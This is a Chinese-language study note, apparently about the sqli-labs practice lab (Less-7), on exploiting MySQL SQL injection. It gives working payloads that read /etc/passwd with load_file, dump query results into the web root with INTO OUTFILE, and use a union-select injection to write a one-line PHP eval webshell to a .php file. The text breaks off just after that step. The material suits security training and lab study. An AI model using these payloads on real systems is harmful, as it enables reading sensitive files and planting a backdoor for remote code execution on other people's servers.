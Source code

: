 select * from table1 into outfile "/var/www/html/a.txt";
```

没有空格：

```
select * from table1 limit 0,1 into dumpfile "c:/a.txt";
```



加载某个文件并显示：

```
select load_file("/etc/passwd");
```

加载文件并转存：

```
select load_file("/etc/passwd") into outfile "/var/www/html/a.txt"
```



**Apache网站位置**：

/var/www/html/

旧版本：

/var/www/



**PHPstudy目录**：

c:/phpstudy_pro/WWW/Less-7/



后方生成的文件名每一次不能一样，否则无法访问

```
id=-2')) union select 1,database(),3 into outfile "/var/www/html/Less-7/zj1.txt"

id=-2')) union select 1,database(),3 into outfile "c:/phpstudy_pro/WWW/Less-7/zj1.txt"
```

然后直接访问本地文件：

![image-20220114210755551](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114210755551.png)



### 变式利用：

#### 可以使用一句话木马：

```
http://10.1.0.101/Less-7/?id=-2')) union select 1,'<?php @eval($_POST["CMD"])?>',3 into outfile "c:/phpstudy_pro/WWW/Less-7/zj1.php" --+
```

然后访问：
```